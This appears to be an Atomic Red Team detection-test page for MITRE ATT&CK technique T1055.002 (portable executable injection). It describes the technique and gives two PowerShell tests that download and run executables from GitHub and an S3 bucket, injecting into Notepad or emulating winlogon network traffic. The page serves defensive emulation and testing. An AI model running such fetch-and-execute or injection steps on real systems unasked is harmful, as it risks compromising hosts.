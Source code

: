 # T1055.002 - Process Injection: Portable Executable Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/002)
<blockquote>Adversaries may inject portable executables (PE) into processes in order to evade process-based defenses as well as possibly elevate privileges. PE injection is a method of executing arbitrary code in the address space of a separate live process. 

PE injection is commonly performed by copying code (perhaps without a file on disk) into the virtual address space of the target process before invoking it via a new thread. The write can be performed with native Windows API calls such as <code>VirtualAllocEx</code> and <code>WriteProcessMemory</code>, then invoked with <code>CreateRemoteThread</code> or additional code (ex: shellcode). The displacement of the injected code does introduce the additional requirement for functionality to remap memory references. (Citation: Elastic Process Injection July 2017) 

Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via PE injection may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Portable Executable Injection](#atomic-test-1---portable-executable-injection)

- [Atomic Test #2 - Winlogon Network Communication Over TCP Port 80 - Potential Process Injection](#atomic-test-2---winlogon-network-communication-over-tcp-port-80---potential-process-injection)


<br/>

## Atomic Test #1 - Portable Executable Injection
This test injects a portable executable into a remote Notepad process memory using Portable Executable Injection and base-address relocation techniques. When successful, a message box will appear with the title "Warning" and the content "Atomic Red Team" after a few seconds.

**Supported Platforms:** Windows


**auto_generated_guid:** 578025d5-faa9-4f6d-8390-aae739d503e1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| exe_binary | PE binary | path | PathToAtomicsFolder&#92;T1055.002&#92;bin&#92;RedInjection.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Start-Process "#{exe_binary}"
Start-Sleep -Seconds 7
Get-Process -Name Notepad -ErrorAction SilentlyContinue | Stop-Process -Force
```

#### Cleanup Commands:
```powershell
Get-Process -Name Notepad -ErrorAction SilentlyContinue | Stop-Process -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: Portable Executable to inject must exist at specified location (#{exe_binary})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{exe_binary}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{exe_binary}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.002/bin/RedInjection.exe" -OutFile "#{exe_binary}"
```




<br/>
<br/>

## Atomic Test #2 - Winlogon Network Communication Over TCP Port 80 - Potential Process Injection
This exe, when launched, attempts to connect to TWO http sites to emulate outbound HTTP activity from the winlogon.exe process.

**Supported Platforms:** Windows


**auto_generated_guid:** d69486f2-9fd8-46f1-91b1-2bbbff49b9f6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| winlogon_exe | Path of Winlogon executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;winlogon.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
"#{winlogon_exe}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Winlogon executable must exist on disk at specified location (#{winlogon_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{winlogon_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory (Split-Path "#{winlogon_exe}") -Force | Out-Null
Invoke-WebRequest "https://cyborg-public.s3.amazonaws.com/emulation-validation/winlogon.exe" -OutFile "#{winlogon_exe}"
```




<br/>
